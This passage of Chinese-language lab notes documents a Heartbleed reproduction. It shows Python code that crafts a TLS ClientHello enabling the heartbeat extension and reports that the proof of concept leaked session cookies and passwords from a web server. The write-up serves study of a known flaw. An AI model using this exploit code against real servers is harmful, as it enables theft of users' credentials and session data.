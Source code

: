 client hello请求构造：关键在于设置心跳拓展，设置 HeartbeatMode 为 peer_allowed_to_send，也就是末尾的`0101`

```python
hello = h2bin('''
16 03 03 00  dc 01 00 00 d8 03 03 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')
```

### 实验结果展示

>   在用户登录webserver后，poc.py立刻就通过heartbeat response获取到了cookie中的所有数据，其中就包括了用户填写的账号密码

![image-20240609105626913](/Users/wwt13/Documents/Notes/assets/image-20240609105626913.png)

